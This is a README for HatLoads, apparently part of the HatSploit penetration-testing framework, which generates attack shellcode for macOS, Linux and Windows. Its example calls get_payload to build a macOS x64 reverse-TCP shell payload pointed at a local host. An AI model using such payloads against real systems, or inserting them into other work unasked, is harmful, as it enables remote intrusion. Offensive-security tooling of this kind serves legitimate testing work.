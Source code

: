 # HatLoads

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatLoads?color=yellow">
    </a>
</p>

HatSploit collection of generic payloads designed to provide a wide range of attacks without having to spend time writing new ones.

## Features

* Contains a lot of useful shellcodes in assembly and bytes.
* Support for most common platforms like `macOS`, `Linux`, `Windows`.
* Ability to get custom code and assemble it.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatLoads
```

## Basic functions

There are all HatLoads basic functions that can be used to generate payloads.

* `get_payload(self, platform, arch, payload, options={}, assemble=True)` - Get assembly shellcode or assembled shellcode.

## Examples

```python3
from hatloads import HatLoads

options = {
    'RHOST': '127.0.0.1',
    'RPORT': 8888
}

hatloads = HatLoads()
shellcode = hatloads.get_payload('macos', 'x64', 'shell_reverse_tcp')
```
